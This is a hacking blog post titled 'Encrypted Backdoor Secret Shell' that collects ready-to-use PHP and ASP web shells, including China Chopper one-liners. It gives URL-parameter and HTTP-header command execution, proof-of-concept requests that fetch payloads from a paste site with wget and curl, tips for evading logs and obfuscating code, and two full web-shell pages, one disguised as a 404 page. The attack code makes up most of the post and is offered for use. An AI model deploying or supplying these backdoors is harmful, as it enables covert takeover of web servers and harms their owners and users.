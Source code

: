 ```yaml
---
layout: post
title: Encrypted Backdoor Secret Shell
date: 2022-08-01 14:42
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":3912,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://farukguler.com/assets/post_images/fox-1.png?w=849" alt="" class="wp-image-3912" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>Caution: </strong>I found it appropriate to share it without encryption to show that there is no log hidden in the codes. But I recommend Encrypt.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>An example: China Chopper </strong>is a web shell approximately 4 kilobytes in size, first discovered in 2012. This web shell is commonly used by malicious Chinese actors, including advanced persistent threat (APT) groups, to remotely control web servers. This web shell has two parts, the client interface (an executable file) and the receiver host file on the compromised web server.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>&lt;PHP:</strong><br>#Execute one command<br><strong>&lt;?php system("ls -a"); ?&gt;</strong><br><strong>&lt;?php system("whoami"); ?&gt;</strong><br><br>#Take input from the url paramter. run as any shell commands.<br><strong>&lt;?php system($_GET['cmd']);?&gt;</strong><br><br>#The same but using passthru<br><strong>&lt;?php passthru($_GET['cmd']); ?&gt;</strong><br><br>#For shell_exec to output the result you need to echo it<br><strong>&lt;?php echo shell_exec("whoami");?&gt;</strong><br><br>#Exec() does not output the result without echo, and only output the last line. So not very useful!<br><strong>&lt;?php echo exec("whoami");?&gt;</strong><br><br>#Instead to this if you can. It will return the output as an array, and then print it all.<br><strong>&lt;?php exec("ls -la",$array); print_r($array); ?&gt;</strong><br><br>#preg_replace(). This is a cool trick<br><strong>&lt;?php preg_replace('/.*/e', 'system("whoami");', ''); ?&gt;</strong><br><br># Using backticks<br><strong>&lt;?php $output = `whoami`; echo "&lt;pre&gt;$output&lt;/pre&gt;"; ?&gt;</strong><br><br>#Using backticks<br><strong>&lt;?php echo `whoami`; ?&gt;</strong><br><br><strong>POC:</strong><br>http://192.168.1.103/fox.php?cmd=pwd<br>/index.php?cmd=wget https://pasteio.com/raw/bl8okgdd fox.php<br>/index.php?cmd=curl https://pasteio.com/raw/lkjfjfd &gt; fox.php <br>/index.php?cmd=GET https://pasteio.com/raw/erg44j fox.php<br><br><br><strong>Make it stealthy:</strong><br># We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters.<br><br><strong>&lt;?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?&gt;<br>&lt;?php system($_SERVER['HTTP_USER_AGENT'])?&gt;</strong><br><br># I have had to use this one<br><strong>&lt;?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?&gt;</strong><br><br><strong>Obfuscation:</strong><br><strong>eval(): </strong>A function that evaluates a given string as PHP code<br><strong>assert(): </strong>A function that evaluates a given string as PHP code<br><strong>base64():</strong> Encodes data with MIME base64 encoding<br><strong>gzdeflate():</strong> Compresses a string using DEFLATE data format; gzinflate() decompresses it<br><strong>str_rot13():</strong> Shifts every letter of a given string 13 places in the alphabet<br><br><strong>&lt;ASP:</strong><br>&lt;%<br>Dim oS<br>On Error Resume Next<br>Set oS = Server.CreateObject("WSCRIPT.SHELL")<br>Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)<br>%&gt;<br><br><strong>China Chopper</strong>:<br>PHP: &lt;?php @eval($_POST[‘password’]);?&gt;<br>ASPX: &lt;%@ Page Language=”Jscript”%&gt;&lt;%eval(RequestItem[“password”],”unsafe”);%&gt;</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p><strong>2 Basic PHP WebShell Frontend:</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">#1<br>&lt;?php<br>if (isset($_GET['cmd'])) {<br>    $cmd = $_GET['cmd'];<br>    system($cmd);<br>} else {<br>    echo "404 - Page Not Found";<br>}<br>?&gt;<br><br>#2<br><strong>&lt;html&gt;<br>&lt;body&gt;<br>&lt;form method="GET" name="&lt;?php echo basename($_SERVER['PHP_SELF']); ?&gt;"&gt;<br>&lt;input type="TEXT" name="cmd" autofocus id="cmd" size="60"&gt;<br>&lt;input type="SUBMIT" value="Execute"&gt;<br>&lt;/form&gt;<br>&lt;pre&gt;<br>&lt;?php<br>    if(isset($_GET['cmd']))<br>    {<br>        system($_GET['cmd']);<br>    }<br>?&gt;<br>&lt;/pre&gt;<br>&lt;/body&gt;<br>&lt;/html&gt;</strong></pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p><strong>Copyright 2017 WhiteWinterWolf</strong>  <strong>Shell Source Code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><a href="https://github.com/faruk-guler/Shell">https://github.com/faruk-guler/Shell</a></pre>
<!-- /wp:preformatted -->
